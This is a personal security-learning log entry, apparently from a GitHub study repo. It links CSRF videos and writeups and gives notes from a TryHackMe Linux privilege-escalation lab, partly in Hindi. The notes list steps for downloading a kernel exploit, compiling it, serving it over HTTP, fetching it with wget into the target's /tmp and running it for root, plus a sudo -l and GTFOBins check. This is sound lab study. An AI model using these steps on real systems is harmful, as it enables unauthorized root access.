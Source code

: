 🎯 Day 9 Task


✅ CSRF Video


https://www.youtube.com/watch?v=iyE9UsBF64w

✅ POC


https://www.youtube.com/watch?v=TGJ4I-F5LhE


https://www.youtube.com/watch?v=YPnejsLPfVk


https://www.youtube.com/watch?v=gBdiKqNPQS8


https://www.youtube.com/watch?v=5jHIUTEdpvI



✅ CSRF Writeup 


https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71


https://huntr.dev/bounties/f952af13-8042-457d-b8d8-bd338987dc02/


✅ Tweet 


https://twitter.com/rootxyash/status/1480126074994368512


https://twitter.com/mavericknerd/status/1214071332083658757


-----------------------------------------------------------------------------------
🔁 THM Room 


➡ Working on Linux PrivEsc Room


✅ Completed till Task 6 Privilege Escalation Sudo 


https://tryhackme.com/room/linprivesc


For more Info check out my Github Repo


https://github.com/Imran407704/Learn365/


Some Tips :

The Kernel exploit methodology is simple :

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Remember that: a failed kernel exploit can lead to a system crash :P

The Sudo exploit methodology :

1. First check how many programs normal user run with sudo rights -: sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  
3. Paste that Command & You are Root User :)


 Some Keywords : 
 
 
 ----------------------------------------------------------------------------------------------
| local system = my computer                                                                   |
| EXPL_FILE = Name of that Particular Exploit                                                  |
| IP:PORT = VPN IP (If you are on tryhackme) / local system IP:jo port se http server bana tha | 
 ----------------------------------------------------------------------------------------------
 
My Steps for Kernel Exploit 

1. Exploit ko local system me - wget https://www.exploit-db.com/exploits/EXPL_FILE se download kiya  
2. gcc se complile kiya - gcc 12345.c exploit 
3. local system me http server banaya - sudo python3 -m http.server
4. & Then target machine ke tmp (temp) directory me jaana hai bcoz yehi directory aisi hai jisme hamey write ki permission hai mai ne home directory me bhi check kiya but waha par exploit ko local machine se transfer nhi kar pa rha tha - wget http://IP:PORT/exploit (remember that http use karna hai not https )
5. ./exploit 
ROOT User :)


My Steps for Sudo Exploit 
1. First check how many programs normal user run with sudo rights - sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  

------------------------------------------------------------------------------------------------------------------------------------------------------

#bugbounty #privesc #infosec #learn365
